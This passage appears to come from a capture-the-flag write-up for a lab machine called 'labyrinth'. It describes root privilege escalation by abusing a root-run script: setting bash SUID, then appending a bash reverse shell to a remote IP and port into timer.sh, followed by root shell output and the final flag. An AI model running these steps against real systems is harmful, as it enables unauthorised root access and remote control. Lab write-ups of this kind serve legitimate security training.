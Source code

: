 Basically we use the root power of this script to make bash a SUID (as we can)

and now we can just...

`/bin/bash -p`

Ok that did not work for me So i decided to just try the shell too

```
echo '
#!/bin/bash
bash -i >& /dev/tcp/10.8.226.203/4444 0>&1
' >> timer.sh //port 4444
```

Now we wait...(gotta be patient there)

```
id
uid=0(root) gid=0(root) groups=0(root)
root@labyrinth:~#

root@labyrinth:~# cat da_king_flek.txt
```

Flag #4

```
cat da_king_flek.txt
fL4G{escaped_the_labyrinth}
```

That room was just cool
